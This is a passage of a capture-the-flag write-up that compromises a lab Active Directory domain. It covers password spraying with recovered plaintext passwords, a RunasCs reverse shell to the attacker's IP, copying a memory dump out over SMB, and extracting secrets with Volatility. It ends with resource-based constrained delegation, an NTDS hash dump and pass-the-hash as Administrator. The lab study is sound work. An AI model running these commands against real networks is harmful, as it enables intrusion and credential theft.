d-----        8/27/2023   1:16 AM                MSSQLSERVER                                                           
d-r---        5/28/2024   2:13 PM                Public                                                                
d-----        5/28/2024  10:22 AM                sqlbackupoperator                                                     
d-----        5/28/2024  11:16 AM                sql_svc                                                               


PS C:\Users> 
```

There are quite a few users here, ill make a user list

There is an internal web server on 8000 but thats being proxyed to port 8o so thats the host ive already abused

```python
PS C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU> type sql-Configuration.INI
type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
SQLSYSADMINACCOUNTS="FREELANCER\Administrator"
SECURITYMODE="SQL"
SAPWD="t3mp0r@ryS@PWD"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
PS C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU> 
```

Found two passwords

## Password spray leads to user compromise

```python
IL0v3ErenY3ager
t3mp0r@ryS@PWD
```

Ill spray these passwords against the users i found in `C:\Users`

```python
nxc smb dc.freelancer.htb -u users.txt -p 'IL0v3ErenY3ager' --continue-on-success

SMB         10.129.66.164   445    DC               [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager
```

This user is compromised

The other password doesnt get me anything

## Domain Enumeration as `mikasaAckerman`

There is no lockout policy set, so password spraying with multiple passwords wont be an issue

### Shares
```python
nxc smb dc.freelancer.htb -u mikasaAckerman -p 'IL0v3ErenY3ager' --shares  
SMB         10.129.66.164   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.66.164   445    DC               [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager 
SMB         10.129.66.164   445    DC               [*] Enumerated shares
SMB         10.129.66.164   445    DC               Share           Permissions     Remark
SMB         10.129.66.164   445    DC               -----           -----------     ------
SMB         10.129.66.164   445    DC               ADMIN$                          Remote Admin
SMB         10.129.66.164   445    DC               C$                              Default share
SMB         10.129.66.164   445    DC               IPC$            READ            Remote IPC
SMB         10.129.66.164   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.66.164   445    DC               SYSVOL          READ            Logon server share
```

There is only default SMB shares

### Users
```python
nxc smb dc.freelancer.htb -u mikasaAckerman -p 'IL0v3ErenY3ager' --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC$
mikasaAckerman
sshd
SQLBackupOperator
sql_svc
DATACENTER-2019$
lorra199
maya.artmes
michael.williams
sdavis
d.jones
jen.brown
taylor
jmartinez
olivia.garcia
dthomas
sophia.h
Ethan.l
wwalker
jgreen
evelyn.adams
hking
alex.hill
samuel.turner
ereed
leon.sk
DATAC2-2022$
WS1-WIIN10$
WS2-WIN11$
WS3-WIN11$
DC2$
carol.poland
lkazanof
SETUPMACHINE$
```

Ill use `--rid-brute` to also grab machine accounts

```python
nxc smb dc.freelancer.htb -u mikasaAckerman -p 'IL0v3ErenY3ager' --users
SMB         10.129.66.164   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.66.164   445    DC               [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager 
SMB         10.129.66.164   445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.66.164   445    DC               Administrator                 2024-05-27 17:59:50 0       Built-in account for administering the computer/domain 
SMB         10.129.66.164   445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.66.164   445    DC               krbtgt                        2023-08-24 01:47:22 0       Key Distribution Center Service Account 
SMB         10.129.66.164   445    DC               mikasaAckerman                2024-05-27 17:58:13 0       Database Developer 
SMB         10.129.66.164   445    DC               sshd                          2023-08-28 18:30:29 0        
SMB         10.129.66.164   445    DC               SQLBackupOperator             2023-09-21 07:26:05 1       SQL Backup Operator Account for Temp Schudeled SQL Express Backups 
SMB         10.129.66.164   445    DC               sql_svc                       2023-11-02 19:10:09 1       MSSQL Database Domain Account 
SMB         10.129.66.164   445    DC               lorra199                      2023-10-04 12:19:13 1       IT Support Technician 
SMB         10.129.66.164   445    DC               maya.artmes                   2023-10-12 01:15:22 0       System Analyzer 
SMB         10.129.66.164   445    DC               michael.williams              2023-10-12 01:40:29 0       Department Manager 
SMB         10.129.66.164   445    DC               sdavis                        2023-10-12 01:44:58 0       IT Support 
SMB         10.129.66.164   445    DC               d.jones                       2023-10-12 01:49:15 0       Software Developer 
SMB         10.129.66.164   445    DC               jen.brown                     2023-10-12 01:51:04 0       Software Developer 
SMB         10.129.66.164   445    DC               taylor                        2023-10-12 01:52:40 0       Human Resources Specialist 
SMB         10.129.66.164   445    DC               jmartinez                     2023-10-12 01:57:32 0       Executive Manager 
SMB         10.129.66.164   445    DC               olivia.garcia                 2023-10-12 02:19:04 0       WSGI Manager 
SMB         10.129.66.164   445    DC               dthomas                       2023-10-12 02:45:32 0       System Analyzer 
SMB         10.129.66.164   445    DC               sophia.h                      2023-10-12 03:02:17 0       Datacenter Manager 
SMB         10.129.66.164   445    DC               Ethan.l                       2023-10-12 03:11:23 0       DJango Developer 
SMB         10.129.66.164   445    DC               wwalker                       2023-10-12 03:20:06 0       Active Directory Trusts Manager 
SMB         10.129.66.164   445    DC               jgreen                        2023-10-12 03:25:04 0       Active Directory Accounts Operator 
SMB         10.129.66.164   445    DC               evelyn.adams                  2023-10-12 03:27:06 0       Active Directory Accounts Operator 
SMB         10.129.66.164   445    DC               hking                         2023-10-12 03:35:58 0        
SMB         10.129.66.164   445    DC               alex.hill                     2023-10-12 03:40:27 0       DJango Developer 
SMB         10.129.66.164   445    DC               samuel.turner                 2023-10-12 03:43:51 0        
SMB         10.129.66.164   445    DC               ereed                         2023-10-12 04:04:24 0       Site Reliability Engineer (SRE) 
SMB         10.129.66.164   445    DC               leon.sk                       2023-11-02 05:20:04 0       Site Reliability Engineer (SRE) 
SMB         10.129.66.164   445    DC               carol.poland                  2023-11-02 06:20:51 0       IT Technician 
SMB         10.129.66.164   445    DC               lkazanof                      2023-10-19 23:39:28 1       System Reliability Monitor (SRM) & Account Operator 
SMB         10.129.66.164   445    DC               [*] Enumerated 29 local users: FREELANCER
```

Also using `--users` is helpful here since the users contains some descriptions

There is also nothing interesting in bloodhound

## Shell as `mikasaAckerman`

To do this ill grab RunasCs from github and upload it

Ill transfer it using a python web server

```python
PS C:\temp> .\RunasCs.exe mikasaAckerman IL0v3ErenY3ager cmd.exe -r 10.10.14.61:1338
.\RunasCs.exe mikasaAckerman IL0v3ErenY3ager cmd.exe -r 10.10.14.61:1338

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-4aa64$\Default
[+] Async process 'C:\WINDOWS\system32\cmd.exe' with pid 4628 created in background.
PS C:\temp>
```

Ill send a connection

```python
penelope -p 1338         
[+] Listening for reverse shells on 0.0.0.0:1338 -> 127.0.0.1 • 192.168.86.128 • 10.10.14.61
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC 10.129.66.164 Microsoft_Windows_Server_2019_Standard-x64-based_PC 👤 freelancer\mikasaackerman 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC~10.129.66.164-Microsoft_Windows_Server_2019_Standard-x64-based_PC/2026_10_03-15_05_29-182.log
──────────────────────────────────────────────────────────────────────────────────────────────────────────────
C:\WINDOWS\system32>
```



I now have a shell as this user

## Analysis of memory dump

```python
C:\Users\mikasaAckerman\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8954-28AE

 Directory of C:\Users\mikasaAckerman\Desktop

05/28/2024  10:22 AM    <DIR>          .
05/28/2024  10:22 AM    <DIR>          ..
10/28/2023  06:23 PM             1,468 mail.txt
10/04/2023  01:47 PM       292,692,678 MEMORY.7z
10/03/2026  02:03 PM                34 user.txt
               3 File(s)    292,694,180 bytes
               2 Dir(s)   2,604,904,448 bytes free

C:\Users\mikasaAckerman\Desktop>
```

I can grab user, there is also some other interesting files on the desktop

```python
C:\Users\mikasaAckerman\Desktop>type mail.txt
type mail.txt
Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot the BSOD issue on the "DATACENTER-2019" computer. As you know, the problem started occurring after we installed the new update of SQL Server 2019.
I attempted the solutions you provided in your last email, but unfortunately, there was no improvement. Whenever we try to establish a remote SQL connection to the installed instance, the server's CPU starts overheating, and the RAM usage keeps increasing until the BSOD appears, forcing the server to restart.
Nevertheless, Liza has requested me to generate a full memory dump on the Datacenter and send it to you for further assistance in troubleshooting the issue.
Best regards,

C:\Users\mikasaAckerman\Desktop>
```

Looks like this is a memory dump file

Ill transfer the 7 zip archive to my system using impackets SMB server

```python
smbserver.py share $(pwd) -smb2support -username hacker -password hackme
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
```

Ill start the SMB server on my system

```python
PS C:\Users\mikasaAckerman\Desktop> net use Z: \\10.10.14.61\share /user:hacker hackme
net use Z: \\10.10.14.61\share /user:hacker hackme
The command completed successfully.

PS C:\Users\mikasaAckerman\Desktop>
```

Ill set where to send the file

```python
PS C:\Users\mikasaAckerman\Desktop> Copy-Item .\MEMORY.7z Z:\
```

Then ill copy it over

```python
7z x MEMORY.7z 

7-Zip 26.02 (x64) : Copyright (c) 1999-2026 Igor Pavlov : 2026-06-25
 64-bit locale=en_US.UTF-8 Threads:128 OPEN_MAX:4096, ASM

Scanning the drive for archives:
1 file, 292692678 bytes (280 MiB)

Extracting archive: MEMORY.7z
--
Path = MEMORY.7z
Type = 7z
Physical Size = 292692678
Headers Size = 130
Method = LZMA2:26
Solid = -
Blocks = 1

Everything is Ok 

Size:       1782252040
Compressed: 292692678
```

Ill then extract it on my system

```python
python3 -m venv vol3-env && source vol3-env/bin/activate 
pip install volatility3
pip3 install pycryptodome
```

Ill install volatility3 to my machine in a virtual environment

```python
vol -f MEMORY.DMP windows.registry.hashdump.Hashdump
Volatility 3 Framework 2.28.2
Progress:  100.00		PDB scanning finished                                
User	rid	lmhash	nthash

Administrator	500	aad3b435b51404eeaad3b435b51404ee	725180474a181356e53f4fe3dffac527
Guest	501	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount	503	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount	504	aad3b435b51404eeaad3b435b51404ee	04fc56dd3ee3165e966ed04ea791d7a7
```

Ill use volatility3 to do some analysis on this

None of these hashes work however

```python
vol -f MEMORY.DMP windows.registry.lsadump.Lsadump

...[SNIP]...

_SC_MSSQL$DATA	
2a 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 *...............
50 00 57 00 4e 00 33 00 44 00 23 00 6c 00 30 00 P.W.N.3.D.#.l.0.
72 00 72 00 40 00 41 00 72 00 6d 00 65 00 73 00 r.r.@.A.r.m.e.s.
73 00 61 00 31 00 39 00 39 00 00 00 00 00 00 00 s.a.1.9.9.......	2a 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 50 00 57 00 4e 00 33 00 44 00 23 00 6c 00 30 00 72 00 72 00 40 00 41 00 72 00 6d 00 65 00 73 00 73 00 61 00 31 00 39 00 39 00 00 00 00 00 00 00
```

That's a UTF-16LE (wide-char) string - Windows encodes text this way, which is why every ASCII byte is followed by a null (`00`). Decoding the second block:

```python
PWN3D#l0rr@Armessa199
```

This looks like a password

## Password spray leads to user compromise

```python
nxc smb dc.freelancer.htb -u users.txt -p 'PWN3D#l0rr@Armessa199' --continue-on-success

SMB         10.129.66.164   445    DC               [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199 
```

This user is compromised!

## Enumeration of `lorra199`



She is part of remote management users

She also has `70` outbound object control???



This is the most interesting vector here, but there is more than likely several ways to get to domain admin using this user due to the amount of outbount

## Domain Admin via Resource Based Constrained Delegation

```python
bloodyAD --host dc.freelancer.htb -d freelancer.htb -u lorra199 -p 'PWN3D#l0rr@Armessa199' get writable --detail --otype computer | grep -C 200 'CN=DC,OU=Domain Controllers,DC=freelancer,DC=htb'

...[SNIP]...

msDS-AllowedToActOnBehalfOfOtherIdentity: WRITE
```

I also had write to the key credentials link, but after trying to apply shadow creds it fails, likely due to no support for PKINIT

But i can abuse this using RBCD

https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd

```python
nxc ldap dc.freelancer.htb -u lorra199 -p 'PWN3D#l0rr@Armessa199' -M maq
LDAP        10.129.66.164   389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:freelancer.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.66.164   389    DC               [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199 
MAQ         10.129.66.164   389    DC               [*] Getting the MachineAccountQuota
MAQ         10.129.66.164   389    DC               MachineAccountQuota: 10
```

Checking the machine account quota, i see its set to 10, so that makes this even easier

```python
nxc smb dc.freelancer.htb -u lorra199 -p 'PWN3D#l0rr@Armessa199' -M add-computer -o NAME=EVIL PASSWORD=Password123!
SMB         10.129.66.164   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.66.164   445    DC               [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199 
ADD-COMP... 10.129.66.164   445    DC               Successfully added the machine account: 'EVIL$' with Password: 'Password123!'
```

First ill use nxc to add a computer account

```python
rbcd.py -delegate-to "DC$" -dc-ip 10.129.66.164 -action 'read' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
```

As seen here the attribute is empty

```python
rbcd.py -delegate-from "EVIL$" -delegate-to "DC$" -dc-ip 10.129.66.164 -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'             
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] EVIL$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     EVIL$        (S-1-5-21-3542429192-2036945976-3483670807-12101)
```

Ill configure the delegation with my new machine account i made

```python
faketime -f +5h getST.py -spn 'cifs/dc.freelancer.htb' -impersonate "Administrator" -dc-ip 10.129.66.164 "freelancer.htb"/"EVIL$":'Password123!'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
```

Then after syncing to the DC, i can get an administrator TGT

```python
faketime -f +5h nxc smb dc.freelancer.htb --use-kcache
SMB         dc.freelancer.htb 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc.freelancer.htb 445    DC               [+] FREELANCER\Administrator from ccache (Pwn3d!)
```

Now as seen here i can auth as the DA

```python
faketime -f +5h nxc smb dc.freelancer.htb --use-kcache --ntds
SMB         dc.freelancer.htb 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc.freelancer.htb 445    DC               [+] FREELANCER\Administrator from ccache (Pwn3d!)
SMB         dc.freelancer.htb 445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc.freelancer.htb 445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:0039318f1e8274633445bce32ad1a290:::
SMB         dc.freelancer.htb 445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc.freelancer.htb 445    DC               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d238e0bfa17d575038efc070187a91c2:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\mikasaAckerman:1105:aad3b435b51404eeaad3b435b51404ee:e8d62c7d57e5d74267ab6feb2f662674:::
SMB         dc.freelancer.htb 445    DC               sshd:1108:aad3b435b51404eeaad3b435b51404ee:c1e83616271e8e17d69391bdcd335ab4:::
SMB         dc.freelancer.htb 445    DC               SQLBackupOperator:1112:aad3b435b51404eeaad3b435b51404ee:c4b746db703d1af5575b5c3d69f57bab:::
SMB         dc.freelancer.htb 445    DC               sql_svc:1114:aad3b435b51404eeaad3b435b51404ee:af7b9d0557964265115d018b5cff6f8a:::
SMB         dc.freelancer.htb 445    DC               lorra199:1116:aad3b435b51404eeaad3b435b51404ee:67d4ae78a155aab3d4aa602da518c051:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\maya.artmes:1124:aad3b435b51404eeaad3b435b51404ee:22db50a324b9a34ea898a290c1284e25:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\michael.williams:1126:aad3b435b51404eeaad3b435b51404ee:af7b9d0557964265115d018b5cff6f8a:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\sdavis:1127:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\d.jones:1128:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\jen.brown:1129:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\taylor:1130:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\jmartinez:1131:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\olivia.garcia:1133:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\dthomas:1134:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\sophia.h:1135:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\Ethan.l:1138:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\wwalker:1141:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\jgreen:1142:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\evelyn.adams:1143:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\hking:1144:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\alex.hill:1145:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\samuel.turner:1146:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\ereed:1149:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\leon.sk:1151:aad3b435b51404eeaad3b435b51404ee:af7b9d0557964265115d018b5cff6f8a:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\carol.poland:1160:aad3b435b51404eeaad3b435b51404ee:af7b9d0557964265115d018b5cff6f8a:::
SMB         dc.freelancer.htb 445    DC               freelancer.htb\lkazanof:1162:aad3b435b51404eeaad3b435b51404ee:a26c33c2878b23df8b2da3d10e430a0f:::
SMB         dc.freelancer.htb 445    DC               DC$:1000:aad3b435b51404eeaad3b435b51404ee:89851d57d9c8cc8addb66c59b83a4379:::
SMB         dc.freelancer.htb 445    DC               DATACENTER-2019$:1115:aad3b435b51404eeaad3b435b51404ee:7a8b0efef4571ec55cc0b9f8cb73fdcf:::
SMB         dc.freelancer.htb 445    DC               DATAC2-2022$:1155:aad3b435b51404eeaad3b435b51404ee:007a710c0581c63104dad1e477c794e8:::
SMB         dc.freelancer.htb 445    DC               WS1-WIIN10$:1156:aad3b435b51404eeaad3b435b51404ee:57e57c6a3f0f8fff74e8ab524871616b:::
SMB         dc.freelancer.htb 445    DC               WS2-WIN11$:1157:aad3b435b51404eeaad3b435b51404ee:bf5267ee6236c86a3596f72f2ddef2da:::
SMB         dc.freelancer.htb 445    DC               WS3-WIN11$:1158:aad3b435b51404eeaad3b435b51404ee:732c190482eea7b5e6777d898e352225:::
SMB         dc.freelancer.htb 445    DC               DC2$:1159:aad3b435b51404eeaad3b435b51404ee:e1018953ffa39b3818212aba3f736c0f:::
SMB         dc.freelancer.htb 445    DC               SETUPMACHINE$:8601:aad3b435b51404eeaad3b435b51404ee:f5912663ecf2c8cbda2a4218127d11fe:::
SMB         dc.freelancer.htb 445    DC               EVIL$:12101:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         dc.freelancer.htb 445    DC               [+] Dumped 38 NTDS hashes to /home/kali/.nxc/logs/ntds/DC_dc.freelancer.htb_2026-10-03_220357.ntds of which 29 were added to the database
SMB         dc.freelancer.htb 445    DC               [*] To extract only enabled accounts from the output file, run the following command: 
SMB         dc.freelancer.htb 445    DC               [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC_dc.freelancer.htb_2026-10-03_220357.ntds | cut -d ':' -f1
```

Then ill just dump the NTDS, this can also be done with impackets secretsdump

```python
evil-winrm-py -i dc.freelancer.htb -u Administrator -H 0039318f1e8274633445bce32ad1a290
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'dc.freelancer.htb:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> whoami
freelancer\administrator
evil-winrm-py PS C:\Users\Administrator\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
evil-winrm-py PS C:\Users\Administrator\Documents>
```

Domain Admin!

```python
evil-winrm-py PS C:\Users\Administrator\Documents> cd ../Desktop
evil-winrm-py PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-ar---        10/3/2026   2:03 PM             34 root.txt                                                               


evil-winrm-py PS C:\Users\Administrator\Desktop>
```

Then i can get `root.txt`
